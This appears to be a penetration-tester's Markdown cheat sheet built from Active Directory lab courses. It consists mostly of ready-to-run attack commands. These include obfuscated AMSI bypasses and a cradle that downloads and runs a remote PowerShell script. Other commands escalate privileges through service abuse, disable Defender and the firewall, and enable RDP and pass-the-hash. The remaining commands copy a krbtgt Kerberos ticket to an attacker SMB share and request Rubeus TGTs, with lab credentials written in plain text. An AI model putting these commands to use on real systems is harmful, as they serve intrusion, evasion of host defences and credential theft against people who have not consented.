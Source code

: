#### AMSI Bypasses ####
1. CRTP Bypass
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

-> Run twice (the first will be detected but it will decimate AMSI so the second one would run perfectly) 
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

2. Modern Bypass 1 (2023)
```
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

3. Modern Bypass 2 (2023)
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

- Download-Execute Cradle
`iex (New-Object Net.WebClient).DownloadString('http://172.16.100.33/PowerView.ps1')`

#### Local PrivEsc ####
1. Abusing service permissions
`Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose`

2. Abusing unquoted service path
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss.exe' -UserName 'dcorp\studentx' -Verbose`

3. Abusing service executable (binary) permissions
`Write-ServiceBinary -Name 'AbyssWebServer' -Path 'C:\WebServer\Abyss Web Server\abyssws.exe' -UserName 'dcorp\studentx' -Verbose`

#### Tamper with Host Defenses as an Administrator ####
- Disable Defender
`Set-MpPreference -DisableRealtimeMonitoring $true`

- Disable Firewall
`Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

- Create a New Inbound Firewall Rule
`New-NetFirewallRule -DisplayName "8080-Out" -Direction Outbound -Protocol TCP -Action Allow -LocalPort 8080`

- Enable RDP
`Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server' fDenyTSConnections 0`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (TCP-In)'`
`Enable-NetFirewallRule -DisplayName 'Remote Desktop - User Mode (UDP-In)'`

- Enable Restricted Admin Mode to Allow PtH
`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

#### Access Machines Remotely ####
- Remote access via SSH
`ssh htb-student@10.129.176.110`

- Remote access via RDP
`xfreerdp /v:10.129.201.234 /u:htb-student /p:'Academy_student_AD!'
(if xfreerdp is not working → (`apt reinstall freerdp2-x11`)

- Launch a PowerShell session on a different computer as a nother user.
`$passwd = ConvertTo-SecureString -AsPlainText -Force -String <PASSWORD>`
`$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "Domain\User",$passwd`

- Run commands on a remote computer.
`Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <COMPUTER> -Credential $cred`

- Start an interactive session with a remote computer.
`Enter-PSSession -ComputerName <COMPUTER> -Credential $cred`

- Create a persistent PSSession on a local or remote computer.
`New-PSSession -ComputerName <COMPUTER> -Credential $cred`
#### File Transfers ####
- Transfer Files via SCP
`scp htb-student@10.129.176.110:/opt/host-enum.txt host-enum.txt`

- Transfer Files via SMB
`impacket-smbserver Docs -smb2support . -user test -password test`
`net use n: \\10.10.14.100\Docs /user:test test`
`copy .\0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi \\10.10.14.100\Docs\`

#### Rubeus ####
- Create sacrificial process.
`.\Rubeus.exe createnetonly /program:'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' /username:student33 /password:htTz2J72nH9KuAXr /domain:certbulk.cb.corp /show`

- Request a TGT using PKINIT.
`.\Rubeus.exe asktgt /user:certstore /certificate:C:\ADCS\Auditor\Loot\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:certpass /nowrap /ptt /getcredentials`